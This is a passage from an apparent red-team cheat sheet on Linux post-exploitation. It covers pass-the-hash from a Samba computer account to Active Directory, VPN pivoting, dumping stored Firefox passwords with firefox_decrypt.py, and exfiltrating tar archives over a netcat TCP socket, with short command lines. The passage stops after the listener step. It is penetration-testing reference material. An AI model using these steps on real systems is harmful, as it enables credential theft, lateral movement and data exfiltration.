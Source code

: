 - Assuming the Samba server has a valid trust relationship with an Active DIrectory domain, we can decode the results of the tdbdump UTF8 encoded "data" fields to obtain the NTLM hash For the Samba computer account and ultimately pass-the-hash to AD using pth-smbclient 

   → https://github.com/byt3bl33d3r/pth-toolkit

// going from Samba server to AD as a computer account
   → https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

### VPNPivot
- creates a VPN tunnel between the attacker and compromised Linux host, and allows pivoting to other hosts internally within an organization that may be behind firewalls, NAT configurations, etc
   → https://github.com/0x36/VPNPivot

```
./autogen.sh
./configure
make && make install
```

### Dumping Stored Firefox Credentials
- Firefox when launched For the first time, creates a default profile For the user
- /home/user/.mozilla/firefox and is a folder which is created with a random alphanumeric value and a **.default** string appended
- These saved browser passwords are stored in the randomly named profile folder, in a file called **logins.json**, and can be dumped using a tool known as firefox_decrypt.py
- https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py
- We can copy the script and transfer to the target machine
- and run:

```
python firefox_decrypt.py
```

> this tool will only work if the Master Password has not been set.


## Data Exfiltration

- Some customers will want to include the simulation of an Advanced Persistent Threat (APT)
- Once we have been able to obtain sensitive information or reach the objectives of the customer requirements, our goal with data exfiltration is to attempt to **move** the data we have acquired securely outside of the organization infrastructure to our attacker-controlled systems.

### Exfil over TCP Socket with EBCDIC and Base64
- Creating a local TCP socket on the target system which points to our attacker machine while we configure a netcat listener to receive the data.
- we will **tar** (archive) the data, encode it with Base64 and EBCDIC (Extended Binary Coded Decimal Interchange Code) encodings and ship the archive to our attacker system over a TCP socket in order to better obfuscate our traffic.

#### Steps
1. Netcat handler
```
nc -lvnp 80 > datafolder.tmp
```
